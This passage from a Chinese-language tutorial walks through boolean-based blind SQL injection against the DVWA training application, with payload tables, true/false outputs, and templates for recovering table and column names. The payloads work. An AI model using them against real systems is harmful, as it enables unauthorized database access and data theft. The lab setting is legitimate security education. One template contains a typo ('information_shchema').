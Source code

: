 ==> dvwa数据库中第1个表的名称字符长度=9

- 表名称的字符组成

依次取出dvwa数据库第1个表的第1/2/.../9个字符分别猜解：

| 输入                                                         | 输出    |
| ------------------------------------------------------------ | ------- |
| 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>88 # | exists  |
| 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>105 # | MISSING |
| 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>96 # | exists  |
| 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>101 # | exists  |
| 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # | MISSING |
| 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=102 # | MISSING |
| 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103 # | exists  |

==> dvwa数据库第1个表的第1个字符的ASCII码=103，对应的字符为**g**
...
==> 依次猜解出其他位置的字符分别为：u、e、s、t、b、o、o、k
==> 从而dvwa数据库第1个表的名称为：**guestbook**

以
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>88 #
...
猜解出dvwa数据库第2个表的名称为：**users**

**4.猜解表中的字段名**
表中的字段名属性：表中的字段数目、某个字段名的字符长度、字段的字符组成及位置；某个字段名全名匹配



![img](https://upload-images.jianshu.io/upload_images/4866277-e3ef6142c27747c0.png?imageMogr2/auto-orient/strip|imageView2/2/w/761/format/webp)

以[dvwa库-users表]为例：

1）猜解users表中的字段数目

```csharp
# 判断[dvwa库-users表]中的字段数目
(select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=xxx
# 判断在[dvwa库-users表]中是否存在某个字段（调整column_name取值进行尝试匹配）
(select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='xxx')=1
# 猜解第i+1个字段的字符长度
length(substr((select column_name from information_shchema.columns limit $i$,1),1))=xxx
# 猜解第i+1个字段的字符组成，j代表组成字符的位置（从左至右第1/2/...号位）
ascii(substr((select column_name from information_schema.columns limit $i$,1),$j$,1))=xxx 
```

| 输入                                                         | 输出    |
| ------------------------------------------------------------ | ------- |
| 1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')>10 # | MISSING |
| 1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')>5 # | exists  |
| 1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')>8 # | MISSING |
| 1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8 # | exists  |
